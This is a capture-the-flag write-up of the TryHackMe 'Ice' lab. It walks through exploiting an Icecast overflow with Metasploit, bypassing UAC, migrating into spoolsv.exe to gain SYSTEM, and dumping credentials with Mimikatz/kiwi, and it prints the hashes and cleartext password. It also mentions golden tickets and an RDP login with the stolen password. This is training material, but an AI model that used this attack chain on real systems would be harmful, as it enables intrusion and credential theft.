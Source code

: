 # TRYHACKME - Ice

```bash
export IP=10.10.146.114
```

## Recon
```bash
sudo nmap -sS -Pn -sV -sC -oN nmap/init.txt -v $IP
```

```
8000/tcp  open  http           Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET
```
=> **CVE-2004-1561**: Execute Code Overflow : https://www.cvedetails.com/cve/CVE-2004-1561/

## Exploit

```bash
msfconsole

search CVE-2004-1561
use 
set # lhost, rhost, rport,...
exploit
```

Foothold

## Post Exploitation
```bash
# whoami in meterpreter shell
getuid # user: DARK-PC\Dark
sysinfo # OS              : Windows 7 (6.1 Build 7601, Service Pack 1); x64

background # session id: 1
use post/multi/recon/local_exploit_suggester # Now that we know the architecture of the process, to perform some further recon. While this(meterpreter x86) doesn't work the best on x64 machines. Using this post module to hang as it tests exploits and might take several minutes to complete
set session 1
exploit

# [+] 10.10.38.248 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
use exploit/windows/local/bypassuac_eventvwr
set session 1
set lhost tun0
set lport 4445
exploit
# [+] Part of Administrators group! Continuing...

getprivs # We can now verify that we have expanded permissions using this command
```

Priviledge Escalation to NT AUTHORITY\SYSTEM: lsass serviceresponsible for authentication within Windows.


In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?: *spoolsv.exe*

```bash
migrate -N spoolsv.exe # Migrate to this process
getuid # Server username: NT AUTHORITY\SYSTEM
```
Now that we've made our way to full administrator permissions we'll set our sights on *looting*. **Mimikatz** is a rather infamous *password dumping tool* that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
```bash
load kiwi
# successful
help # Kiwi Commands
creds_all # Retrieve all credentials
```

Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

```
Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC     

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

Command allows us to watch the remote user's desktop in real time: `screenshare`

!!
picture here
!!


Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain
```bash
golden_ticket_create
```


As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP).  If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

note: evil-winrm: 5985 WinRM

```bash
xfreerdp /f /u:Dark /p:Password01! /v:$IP[:PORT]
 ```

 ## Futher Reading
Mannual Exploit IceCast: https://www.exploit-db.com/exploits/568
